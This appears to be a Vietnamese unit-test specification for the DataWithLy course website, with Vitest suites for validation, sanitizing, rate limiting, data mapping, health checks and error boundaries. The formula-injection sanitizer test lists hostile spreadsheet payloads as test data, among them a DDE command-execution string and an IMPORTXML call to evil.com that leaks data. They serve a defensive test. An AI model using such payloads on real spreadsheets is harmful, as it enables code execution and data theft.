

# Kịch Bản Kiểm Thử Đơn Vị (Unit Test Scenarios & Specifications)

- **Mục đích:** Đặc tả chi tiết các bộ kịch bản kiểm thử đơn vị (Unit Tests), cung cấp mã kiểm thử mẫu (Test Suites với Vitest / Jest), dữ liệu đầu vào (Mocks), và các điều kiện kiểm tra (Assertions) cho toàn bộ các hàm cốt lõi, schema validator, bộ làm sạch chuỗi và thuật toán quản lý bộ nhớ của dự án DataWithLy.
- **Trạng thái:** Active / Production Ready
- **Người duyệt:** TechLead & Client Hứa Thảo Ly
- **Ngày cập nhật:** 2026-11-05
- **Nguồn tham khảo:** 
  - [Khung kiểm thử README.md](README.md)
  - [Ma trận truy vết traceability-matrix.md](traceability-matrix.md)
  - [Quy tắc kinh doanh BR-01 đến BR-13](../02-domain/business-rules.md)
  - [Kiến trúc Caching & Quản lý bộ nhớ](../07-architecture/caching-and-memory-optimization.md)

---

## 1. Tổng Quan Kiến Trúc Unit Test



---

## 2. Chi Tiết Các Bộ Kịch Bản Kiểm Thử Đơn Vị (Unit Test Suites)

### Suite 1: Xác Thực Dữ Liệu Lead & Số Điện Thoại (`lead-schema.test.ts`)
- **Tập tin kiểm thử:** `src/lib/validations/__tests__/lead.schema.test.ts`
- **Mã kịch bản:** `TC-UNIT-001` đến `TC-UNIT-003`
- **Yêu cầu & Quy tắc liên quan:** `REQ-M04-002`, `BR-05`, `BR-06`
- **Mục tiêu:** Kiểm tra Zod Schema xác thực dữ liệu học viên đăng ký, kiểm tra chặt chẽ số điện thoại nhà mạng Việt Nam, chuẩn hóa email, và phát hiện bẫy Honeypot.

#### Mã nguồn kiểm thử mẫu:
```typescript
import { describe, it, expect } from 'vitest';
import { leadSubmissionSchema } from '../lead.schema';

describe('Unit Test Suite 1: Lead Submission Schema Validation', () => {
  it('TC-UNIT-001a: Chấp nhận các số điện thoại Việt Nam hợp lệ', () => {
    const validPhones = [
      '0901234567',   // Viettel / Mobi / Vina đầu 09
      '0381234567',   // Viettel đầu 03
      '0771234567',   // Mobifone đầu 07
      '0831234567',   // Vinaphone đầu 08
      '0561234567',   // Vietnamobile đầu 05
      '+84901234567', // Định dạng quốc tế có +84
    ];

    validPhones.forEach((phone) => {
      const result = leadSubmissionSchema.safeParse({
        fullName: 'Nguyễn Văn Test',
        phone,
        email: 'test@datawithly.edu.vn',
        courseId: 'sql-for-data-analytics',
      });
      expect(result.success).toBe(true);
    });
  });

  it('TC-UNIT-001b: Từ chối các số điện thoại không hợp lệ', () => {
    const invalidPhones = [
      '12345',              // Quá ngắn
      '012345678901',       // Quá dài (> 11 số)
      '0123456789',         // Đầu số cũ 11 số bị khai tử
      'abcdefghij',         // Chứa chữ cái
      '0901 234 567',       // Khoảng trắng chưa làm sạch
      '0001234567',         // Đầu số không tồn tại
    ];

    invalidPhones.forEach((phone) => {
      const result = leadSubmissionSchema.safeParse({
        fullName: 'Nguyễn Văn Test',
        phone,
        email: 'test@datawithly.edu.vn',
        courseId: 'sql-for-data-analytics',
      });
      expect(result.success).toBe(false);
      if (!result.success) {
        expect(result.error.issues[0].message).toContain('Số điện thoại không hợp lệ');
      }
    });
  });

  it('TC-UNIT-002: Chuẩn hóa email về chữ thường và xóa khoảng trắng thừa', () => {
    const input = {
      fullName: '  Học Viên Data  ',
      phone: '0912345678',
      email: '  HocVien.LyData@GMAIL.com  ',
      courseId: 'sql-for-data-analytics',
    };

    const parsed = leadSubmissionSchema.parse(input);
    expect(parsed.fullName).toBe('Học Viên Data');
    expect(parsed.email).toBe('hocvien.lydata@gmail.com');
  });

  it('TC-UNIT-003: Phát hiện và xử lý bẫy bot Honeypot (BR-06)', () => {
    const spamPayload = {
      fullName: 'Crypto Spammer',
      phone: '0901234567',
      email: 'spam@bot.com',
      courseId: 'sql-for-data-analytics',
      website: 'http://malicious-crypto-link.com', // Honeypot field
    };

    const result = leadSubmissionSchema.safeParse(spamPayload);
    // Honeypot field phải rỗng. Nếu có giá trị -> Đánh dấu là spam
    expect(result.success).toBe(false);
    if (!result.success) {
      expect(result.error.issues[0].path).toContain('website');
    }
  });
});
```

---

### Suite 2: Chống Tấn Công Google Sheets Formula Injection (`sanitizer.test.ts`)
- **Tập tin kiểm thử:** `src/lib/security/__tests__/sanitizer.test.ts`
- **Mã kịch bản:** `TC-UNIT-004`
- **Yêu cầu & Quy tắc liên quan:** `REQ-M04-006`, `BR-10`, `NFR-SEC-001`
- **Mục tiêu:** Đảm bảo mọi chuỗi dữ liệu nhập từ người dùng trước khi ghi vào ô của Google Sheets đều được kiểm tra các ký tự kích hoạt công thức tính toán (`=`, `+`, `-`, `@`, `\t`, `\r`) và thêm tiền tố dấu nháy đơn (`'`).

#### Mã nguồn kiểm thử mẫu:
```typescript
import { describe, it, expect } from 'vitest';
import { sanitizeForGoogleSheets } from '../sanitizer';

describe('Unit Test Suite 2: Google Sheets Formula Injection Sanitizer', () => {
  it('TC-UNIT-004a: Vô hiệu hóa các công thức bắt đầu bằng dấu =, +, -, @', () => {
    const dangerousInputs = [
      '=SUM(A1:A10)',
      '=cmd|\' /C calc\'!A0',
      '+12345678',
      '-5000000',
      '@IMPORTXML("http://evil.com/leak", "//a")',
      '\tDữ liệu có tab thụt đầu',
      '\rDữ liệu có return',
    ];

    dangerousInputs.forEach((input) => {
      const sanitized = sanitizeForGoogleSheets(input);
      // Bắt buộc phải bắt đầu bằng dấu nháy đơn '
      expect(sanitized.startsWith("'")).toBe(true);
      expect(sanitized).toBe(`'${input}`);
    });
  });

  it('TC-UNIT-004b: Giữ nguyên chuỗi văn bản thông thường an toàn', () => {
    const safeInputs = [
      'Nguyễn Minh Quân',
      'Muốn học SQL nâng cao vào cuối tuần',
      '0901234567',
      'minhquan@gmail.com',
      'Khoá học rất bổ ích!',
    ];

    safeInputs.forEach((input) => {
      const sanitized = sanitizeForGoogleSheets(input);
      expect(sanitized).toBe(input);
      expect(sanitized.startsWith("'")).toBe(false);
    });
  });

  it('TC-UNIT-004c: Xử lý chuỗi rỗng hoặc undefined/null an toàn', () => {
    expect(sanitizeForGoogleSheets('')).toBe('');
    expect(sanitizeForGoogleSheets(null as unknown as string)).toBe('');
    expect(sanitizeForGoogleSheets(undefined as unknown as string)).toBe('');
  });
});
```

---

### Suite 3: Kiểm Soát Tần Suất & Quản Lý Bộ Nhớ LRU Cache (`rate-limiter.test.ts`)
- **Tập tin kiểm thử:** `src/lib/security/__tests__/rate-limiter.test.ts`
- **Mã kịch bản:** `TC-UNIT-005` đến `TC-UNIT-007`
- **Yêu cầu & Quy tắc liên quan:** `REQ-M04-004`, `BR-02`, `NFR-RELIABILITY-006`
- **Mục tiêu:** Kiểm tra thuật toán Sliding Window Rate Limiter (tối đa 3 reqs / phút / IP) và chứng minh cấu trúc Bounded LRU Cache không bao giờ làm tràn bộ nhớ (Memory Leak Prevention) ngay cả khi bị chèn hàng ngàn địa chỉ IP rác.

#### Mã nguồn kiểm thử mẫu:
```typescript
import { describe, it, expect, beforeEach, vi } from 'vitest';
import { MemoryRateLimiter } from '../rate-limiter';

describe('Unit Test Suite 3: Rate Limiter & Bounded LRU Cache', () => {
  let rateLimiter: MemoryRateLimiter;

  beforeEach(() => {
    // Khởi tạo rate limiter: tối đa 3 requests trong 60 giây, dung lượng tối đa 100 IPs
    rateLimiter = new MemoryRateLimiter({
      maxRequests: 3,
      windowSeconds: 60,
      maxEntries: 100, // Ngưỡng dung lượng bộ nhớ cố định (Bounded Cache)
    });
    vi.useFakeTimers();
  });

  it('TC-UNIT-005: Cho phép đúng 3 requests và chặn từ request thứ 4', () => {
    const testIp = '192.168.1.100';

    expect(rateLimiter.isAllowed(testIp).allowed).toBe(true); // Lần 1
    expect(rateLimiter.isAllowed(testIp).allowed).toBe(true); // Lần 2
    expect(rateLimiter.isAllowed(testIp).allowed).toBe(true); // Lần 3

    // Lần 4 vượt ngưỡng
    const fourthAttempt = rateLimiter.isAllowed(testIp);
    expect(fourthAttempt.allowed).toBe(false);
    expect(fourthAttempt.retryAfterSeconds).toBeGreaterThan(0);
    expect(fourthAttempt.retryAfterSeconds).toBeLessThanOrEqual(60);
  });

  it('TC-UNIT-006: Khôi phục quyền nộp sau khi hết cửa sổ 60 giây (Sliding Window)', () => {
    const testIp = '192.168.1.100';

    rateLimiter.isAllowed(testIp);
    rateLimiter.isAllowed(testIp);
    rateLimiter.isAllowed(testIp);
    expect(rateLimiter.isAllowed(testIp).allowed).toBe(false);

    // Tua nhanh thời gian thêm 61 giây
    vi.advanceTimersByTime(61 * 1000);

    // Sau 60 giây phải được phép nộp lại
    const newAttempt = rateLimiter.isAllowed(testIp);
    expect(newAttempt.allowed).toBe(true);
  });

  it('TC-UNIT-007: Cơ chế Bounded LRU Cache giải phóng bộ nhớ, chống Memory Leak', () => {
    // Giả lập spam chèn 150 IP khác nhau vào bộ nhớ có dung lượng trần 100
    for (let i = 1; i <= 150; i++) {
      rateLimiter.isAllowed(`10.0.0.${i}`);
    }

    // Dung lượng hiện tại của cache trong RAM tuyệt đối không được vượt quá maxEntries (100)
    expect(rateLimiter.getCurrentSize()).toBeLessThanOrEqual(100);

    // Địa chỉ IP đầu tiên (10.0.0.1) là cũ nhất nên đã bị đào thải (Evicted)
    // Khi gọi lại 10.0.0.1 sẽ được coi như một bản ghi mới với counter = 1
    const reAddFirst = rateLimiter.isAllowed('10.0.0.1');
    expect(reAddFirst.allowed).toBe(true);
  });
});
```

---

### Suite 4: Chuyển Đổi Dữ Liệu Google Sheets & Xử Lý Đề Cương Xuống Dòng (`content-adapter.test.ts`)
- **Tập tin kiểm thử:** `src/lib/adapters/__tests__/content-adapter.test.ts`
- **Mã kịch bản:** `TC-UNIT-008` đến `TC-UNIT-010`
- **Yêu cầu & Quy tắc liên quan:** `REQ-M02-002`, `BR-04`, `NFR-USABILITY-006`
- **Mục tiêu:** Kiểm tra hàm chuyển đổi dữ liệu mảng 2 chiều của Google Sheets thành đối tượng TypeScript `Course` và xử lý ký tự xuống dòng `\n` (từ thao tác Alt+Enter) thành mảng các đầu mục đề cương chuẩn xác.

#### Mã nguồn kiểm thử mẫu:
```typescript
import { describe, it, expect } from 'vitest';
import { mapSheetRowToCourse, parseMultilineSyllabus } from '../content-adapter';

describe('Unit Test Suite 4: Content Adapter & Multiline Syllabus Parsing', () => {
  it('TC-UNIT-008: Chuyển đổi hàng Google Sheet thành đối tượng Course có kiểu dữ liệu mạnh', () => {
    // Mô phỏng 1 hàng trong tab 'courses'
    const mockSheetRow = [
      'sql-da',                             // 0: id
      'SQL for Data Analytics',            // 1: title
      'sql-for-data-analytics',            // 2: slug
      'SQL',                               // 3: tag
      'Thành thạo truy vấn từ con số 0',   // 4: tagline
      'Khóa học thực chiến...',            // 5: description
      '3800000',                           // 6: tuition_vnd
      '8 tuần',                            // 7: duration
      'TRUE',                              // 8: is_active
      '1',                                 // 9: sort_order
    ];

    const course = mapSheetRowToCourse(mockSheetRow);

    expect(course.id).toBe('sql-da');
    expect(course.title).toBe('SQL for Data Analytics');
    expect(course.slug).toBe('sql-for-data-analytics');
    expect(course.tuitionVnd).toBe(3800000); // Tự động parse string -> number
    expect(course.isActive).toBe(true);     // Tự động parse string -> boolean
    expect(course.sortOrder).toBe(1);
  });

  it('TC-UNIT-009: Xử lý fallback an toàn khi ô dữ liệu bị rỗng hoặc lỗi định dạng', () => {
    const brokenRow = [
      'missing-fields-course',
      'Khóa học thiếu thông tin',
      'missing-course',
      '',       // Tag rỗng
      '',       // Tagline rỗng
      '',       // Description rỗng
      'invalid_price', // Học phí sai định dạng
      '',       // Duration rỗng
      '',       // is_active rỗng
      '',       // sort_order rỗng
    ];

    const course = mapSheetRowToCourse(brokenRow);

    // Không ném exception runtime
    expect(course.tuitionVnd).toBe(0);          // Fallback về 0
    expect(course.isActive).toBe(false);       // Mặc định an toàn là false
    expect(course.sortOrder).toBe(999);        // Đẩy xuống cuối cùng
    expect(course.tag).toBe('Chung');          // Fallback tag mặc định
  });

  it('TC-UNIT-010: Bóc tách chuỗi xuống dòng Alt+Enter thành mảng bullet points sạch', () => {
    const rawCellContent = 
      "- Cài đặt môi trường SQL Server\n" +
      "- Cú pháp SELECT, WHERE, ORDER BY\n" +
      "   \n" + // Dòng trống có khoảng trắng
      "- Thực hành lọc dữ liệu thực tế tại MoMo";

    const bulletPoints = parseMultilineSyllabus(rawCellContent);

    expect(bulletPoints.length).toBe(3);
    expect(bulletPoints[0]).toBe("Cài đặt môi trường SQL Server");
    expect(bulletPoints[1]).toBe("Cú pháp SELECT, WHERE, ORDER BY");
    expect(bulletPoints[2]).toBe("Thực hành lọc dữ liệu thực tế tại MoMo");
  });
});
```

---

### Suite 5: Dịch Vụ Sức Khỏe Hệ Thống & Đo Lường Bộ Nhớ (`health-service.test.ts`)
- **Tập tin kiểm thử:** `src/lib/services/__tests__/health.service.test.ts`
- **Mã kịch bản:** `TC-UNIT-011` đến `TC-UNIT-013`
- **Yêu cầu & Quy tắc liên quan:** `REQ-M00-002`, `NFR-OBS-001`, `NFR-RELIABILITY-006`
- **Mục tiêu:** Kiểm tra logic đo thời gian phản hồi (latency) của Google Sheets, phân loại trạng thái (`healthy`, `degraded`, `down`), và trích xuất chỉ số bộ nhớ Node.js V8 Heap.

#### Mã nguồn kiểm thử mẫu:
```typescript
import { describe, it, expect, vi } from 'vitest';
import { HealthService } from '../health.service';

describe('Unit Test Suite 5: Health Check Service & Memory Metrics', () => {
  it('TC-UNIT-011: Phân loại trạng thái healthy khi latency < 500ms', async () => {
    // Mock hàm ping Google Sheets API phản hồi sau 120ms
    const mockSheetsPing = vi.fn().mockResolvedValue({ latencyMs: 120, connected: true });
    const healthService = new HealthService({ sheetsClient: { ping: mockSheetsPing } });

    const status = await healthService.checkHealth();

    expect(status.status).toBe('healthy');
    expect(status.sheets.latencyMs).toBe(120);
    expect(status.sheets.status).toBe('connected');
  });

  it('TC-UNIT-012: Phân loại degraded khi latency cao (500ms - 2000ms)', async () => {
    const mockSlowPing = vi.fn().mockResolvedValue({ latencyMs: 1200, connected: true });
    const healthService = new HealthService({ sheetsClient: { ping: mockSlowPing } });

    const status = await healthService.checkHealth();

    expect(status.status).toBe('degraded');
    expect(status.sheets.latencyMs).toBe(1200);
  });

  it('TC-UNIT-013: Trích xuất chỉ số V8 Heap Memory định dạng Megabytes', () => {
    const healthService = new HealthService();
    const memory = healthService.getMemoryUsage();

    expect(typeof memory.heapUsedMb).toBe('number');
    expect(typeof memory.heapTotalMb).toBe('number');
    expect(typeof memory.rssMb).toBe('number');
    expect(memory.heapUsedMb).toBeGreaterThan(0);
    expect(memory.heapUsedMb).toBeLessThanOrEqual(memory.heapTotalMb);
  });
});
```

---

### Suite 6: Kiểm Thử React Error Boundary & Card Khôi Phục (`error-boundary.test.tsx`)
- **Tập tin kiểm thử:** `src/components/common/__tests__/error-boundary.test.tsx`
- **Mã kịch bản:** `TC-UNIT-017`
- **Yêu cầu & Quy tắc liên quan:** `BR-11`, `NFR-RELIABILITY-001`
- **Mục tiêu:** Đảm bảo khi một component con phát sinh lỗi runtime (ví dụ API Google Sheets trả về dữ liệu rác gây crash), Error Boundary sẽ cô lập lỗi, ngăn chặn hoàn toàn lỗi White Screen of Death và render giao diện Card fallback thân thiện.

#### Mã nguồn kiểm thử mẫu:
```tsx
import React from 'react';
import { describe, it, expect, vi } from 'vitest';
import { render, screen } from '@testing-library/react';
import { ComponentErrorBoundary } from '../error-boundary';

// Component giả lập phát sinh lỗi runtime
const BrokenComponent = () => {
  throw new Error('Mô phỏng lỗi kết nối dữ liệu Google Sheets!');
};

const WorkingHeader = () => <header>DataWithLy Navigation Header</header>;

describe('Unit Test Suite 6: React Error Boundary (Zero White Screen)', () => {
  it('TC-UNIT-017: Bắt lỗi component con và render Card fallback, giữ nguyên header', () => {
    // Tạm thời ẩn console.error để log kiểm thử sạch
    const spy = vi.spyOn(console, 'error').mockImplementation(() => {});

    render(
      <div>
        <WorkingHeader />
        <ComponentErrorBoundary sectionName="Đề Cương Khóa Học">
          <BrokenComponent />
        </ComponentErrorBoundary>
      </div>
    );

    // 1. Header mẹ vẫn hiển thị bình thường, trang web không bị trắng toàn bộ
    expect(screen.getByText('DataWithLy Navigation Header')).toBeInTheDocument();

    // 2. Component con bị hỏng hiển thị thẻ Fallback Card thân thiện
    expect(screen.getByText(/Nội dung phần Đề Cương Khóa Học đang được bảo trì/i)).toBeInTheDocument();
    expect(screen.getByRole('button', { name: /Tải lại nội dung/i })).toBeInTheDocument();

    spy.mockRestore();
  });
});
```

---

## 3. Lệnh Thực Thi Bộ Kiểm Thử (CLI Execution)

Lập trình viên và Autonomous Coding Agents có thể chạy toàn bộ kịch bản Unit Test bằng các câu lệnh tiêu chuẩn sau:

```bash
# 1. Chạy toàn bộ Unit Test Suites một lần duy nhất
npm run test:unit

# 2. Chạy chế độ Watch khi đang phát triển tính năng
npm run test:watch

# 3. Đo lường tỷ lệ bao phủ mã nguồn (Code Coverage >= 85%)
npm run test:coverage
```

---

[Quay lại Khung kiểm thử README.md](README.md) | [Xem Ma trận truy vết](traceability-matrix.md) | [Xem Báo cáo kiểm thử tải](traffic-simulation-and-load-testing.md)

